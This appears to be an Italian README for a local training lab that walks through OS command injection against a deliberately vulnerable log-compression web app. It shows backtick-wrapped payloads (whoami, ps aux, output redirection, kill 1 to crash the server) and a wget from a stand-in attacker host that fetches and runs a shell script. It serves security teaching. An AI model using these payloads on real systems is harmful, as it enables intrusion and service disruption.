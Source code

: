 # Laboratorio Command Injection

Questo laboratorio permette di testare vulnerabilità di tipo OS Command Injection tramite esempi pratici.

## Come usare il laboratorio

1. Avvia il servizio Command Injection tramite Docker Compose come indicato nel README principale.
2. Segui la guida sotto e osserva il comportamento dell'applicazione per capire se è vulnerabile.

### 1. Navigazione iniziale
Accedi all'applicazione all'indirizzo [http://localhost:7004](http://localhost:7004).

![webapp](resources/cmdi-1.png)

L'applicazione include due funzionalità:
- Log Viewer Tool: permette di visualizzare i log di sistema.
- Log Compression Tool: permette di comprimere i log di sistema in un file `.zip`.

### 2. Log Viewer Tool
Questa funzionalità permette di visualizzare i log di sistema e cambiare la formattazione di essi.

![webapp](resources/cmdi-2.png)

L'applicazione da frontend consente di scegliere fra 3 opzioneni di formattazione:
- Red
- Blue & bold
- Normal

questi valori sono poi passati a backend tramite il parametro `lines`. Questo parametro viene valorizzato nel seguente modo:
- Red -> `red`
- Blue & bold -> `blue`
- Normal -> `normal`

se proviamo a modifire il valore del parametro `lines` con, ad esempio:

```
`whoami`
```

otteniamo un errore di sistema:

![webapp](resources/cmdi-4.png)

da questo errore capiamo che questa api non è vulnerabile a command injection.
questo endpoint protrebbe essere vulnarabile ad altri tipi di injection, come ad esempio Code Injection, ma non è lo scopo di questo laboratorio.

### 3. Log Compression Tool
Questa funzionalità permette di comprimere i log di sistema in un file `.zip`.

![burp-intercept](resources/cmdi-5.png)

L'applicazione da frontend consente di scegliere fra 2 opzioni di compressione:
- Access log
- Error log

questi valori sono poi passati a backend tramite il parametro `log_type`. Questo parametro viene valorizzato nel seguente modo:
- Access log -> `access`
- Error log -> `error`

se proviamo a modificare il valore del parametro `log_type` con, ad esempio:

```
test
```

possiamo notare che il valore che viene passato in input va costituire il nome del file da comprimere.

![webapp](resources/cmdi-7.png)

## 4. Attacco Command Injection

a questo punto possiamo provare ad inserire un payload di command injection, ad esempio:

```
`whoami`
```

![webapp](resources/cmdi-8.png)

In questo caso, il comando `whoami` viene eseguito sul server e il risultato viene incluso nel nome del file compresso. Questo dimostra che l'applicazione è vulnerabile a OS Command Injection.

### 5. Attacco Command Injection avanzato

Possiamo provare a eseguire un comando più complesso, ad esempio provare a killare il processo del web server.

```
`ps aux`
```

In questo modo non otteniamo nessun output, o meglio, ottieniamo un errore di sistema, ma non vediamo l'output del comando.
Quindi, per visualizzare l'output del comando possiamo provare ad sfruttare la funzionalità di Log Viewer Tool.
In questa funzionalità, abbiamo visto prima che ci sono 2 file di log:
- access_log.txt
- error_log.txt

con il seguente comando `ls ./` possiamo vedere se questi file si trovano diramettamente nella cartella dove si trova l'applicazione web:

```
`ls ./`
```

adesso che sappiamo che i file di log si trovano nella cartella dell'applicazione, proviamo ad inviare output dei comandi a uno di questi file, ad esempio:

```
`ps aux > access_log.txt`
```

![webapp](resources/cmdi-9.png)

sembrerebbe che non venga eseguito nulla, ma in realtà il comando viene eseguito correttamente, infatti se andiamo a visualizzare il file di log `error_log.txt` tramite la funzionalità di Log Viewer Tool, possiamo notare che il file è stato sovrascritto con l'output del comando `ps aux`.

![webapp](resources/cmdi-10.png)

Da questo output possiamo notare che il processo del web server ha PID 1, quindi possiamo provare a killare questo processo con il seguente comando:

```
`kill 1`
```

![webapp](resources/cmdi-11.png)

Dopo aver inviato la richiesta, il server web andrà in crash e non sarà più raggiungibile.

![webapp](resources/cmdi-12.png)

### 6. Note finali

- Questa vulnerabilità puo anche portare al remote code execution (RCE) se l'attaccante, sfruttando wget o curl, riesce a scaricare un web shell sul server vulnerabile. ad esempio:

```
`wget http://attacker.com/shell.sh -O /tmp/shell.sh`
```

e poi eseguire la shell:

```
`sh /tmp/shell.sh`
```

- In un contesto reale, è fondamentale validare e sanificare tutti i dati in input per prevenire vulnerabilità di questo tipo.
- Utilizzare sempre il principio del least privilege per limitare i danni in caso di compromissione.
